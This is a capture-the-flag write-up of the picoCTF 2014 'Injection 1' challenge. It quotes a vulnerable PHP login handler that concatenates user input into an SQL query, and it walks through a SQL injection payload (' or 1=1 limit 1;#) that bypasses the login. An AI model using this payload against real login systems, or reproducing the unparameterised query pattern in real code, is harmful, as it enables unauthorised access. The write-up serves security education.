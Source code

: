 ```yaml
---
layout: post
title: "picoCTF 2014 Injection1"
date: 2014-11-07 19:50:05 -0500
author: [et0x]
comments: true
categories: [picoctf]
---
```


### Solved by et0x

Injection 1 is a 90 point web exploitation challenge. 

> Daedalus Corp. has been working on their login service, using a brand new SQL database to store all of the access credentials. Can you figure out how to login? 

Upon visiting the provided link, you are greeted with a simple login form and the source code for the php handler for logins.

```php
<?php
include "config.php";
$con = mysqli_connect("localhost", "sql1", "sql1", "sql1");
$username = $_POST["username"];
$password = $_POST["password"];
$debug = $_POST["debug"];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (intval($debug)) {
  echo "<pre>";
  echo "username: ", htmlspecialchars($username), "\n";
  echo "password: ", htmlspecialchars($password), "\n";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  if (mysqli_errno($con) !== 0) {
    echo "SQL error: ", htmlspecialchars(mysqli_error($con)), "\n";
  }
  echo "</pre>";
}

if (mysqli_num_rows($result) !== 1) {
  echo "<h1>Login failed.</h1>";
} else {
  echo "<h1>Logged in!</h1>";
  echo "<p>Your flag is: $FLAG</p>";
}

?> 
```
As you can see, there is no input validation for the username and password fields, all that the script checks for is that there is only one result in the SQL query.  Lets replicate the queries on a local SQL database so we can see what is happening.

The structure for the table is very basic:

```
mysql> select * from users_tbl;
+---------+----------+-----------+
| user_id | username | password  |
+---------+----------+-----------+
|       1 | admin    | adminpass |
|       2 | user     | userpass  |
+---------+----------+-----------+
2 rows in set (0.00 sec)
```

Now to try to get a positive result from our query.

```
mysql> SELECT * FROM users_tbl WHERE username='admin' AND password='asdf' or 1=1;#;
+---------+----------+-----------+
| user_id | username | password  |
+---------+----------+-----------+
|       1 | admin    | adminpass |
|       2 | user     | userpass  |
+---------+----------+-----------+
2 rows in set (0.00 sec)
```

Okay, now we have results, but as we discussed before, the script makes sure that only one result was found, so we should be able to add a limit 1 statement to limit our results.

```
mysql> SELECT * FROM users_tbl WHERE username='admin' AND password='asdf' or 1=1 limit 1;#;
+---------+----------+-----------+
| user_id | username | password  |
+---------+----------+-----------+
|       1 | admin    | adminpass |
+---------+----------+-----------+
1 row in set (0.00 sec)
```

Great!  Now all we have to do is enter the following in the login form:

>Username: admin

>Password: ' or 1=1 limit 1;#

Sure enough, the login works.  The flag is **flag_vFtTcLf7w2st5FM74b**
